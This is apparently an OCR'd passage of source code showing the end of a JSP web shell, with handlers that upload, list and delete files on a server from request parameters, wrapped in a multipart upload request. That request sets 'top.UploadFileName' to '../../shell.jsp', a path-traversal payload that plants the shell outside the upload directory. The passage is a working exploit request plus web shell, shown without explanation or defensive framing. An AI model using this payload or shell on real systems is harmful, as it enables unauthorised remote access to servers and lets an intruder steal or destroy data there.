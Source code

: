 ```shell
                output = "File uploaded to: " + filePath;
            } else {
                output = "Invalid file upload parameters.";
            }
        } else if ("list".equals(action)) {
            // List directory contents
            String dirPath = request.getParameter("path");
            if (dirPath != null) {
                File dir = new File(dirPath);
                if (dir.isDirectory()) {
                    for (File file : Objects.requireNonNull(dir.listFiles())) {
                        output += file.getName() + (file.isDirectory() ? "/" : "") + "\n";
                    }
                } else {
                    output = "Path is not a directory.";
                }
            } else {
                output = "No directory path provided.";
            }
        } else if ("delete".equals(action)) {
            // Delete files
            String filePath = request.getParameter("path");
            if (filePath != null) {
                File file = new File(filePath);
                if (file.delete()) {
                    output = "File deleted: " + filePath;
                } else {
                    output = "Failed to delete file: " + filePath;
                }
            } else {
                output = "No file path provided.";
            }
        } else {
            // Unknown operation
            output = "Unknown action: " + action;
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }

    // Return the result
    response.setContentType("text/plain");
    out.print(output);
%>
------WebKitFormBoundaryvvSfHjpRjxeufqTe
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
------WebKitFormBoundaryvvSfHjpRjxeufqTe
```
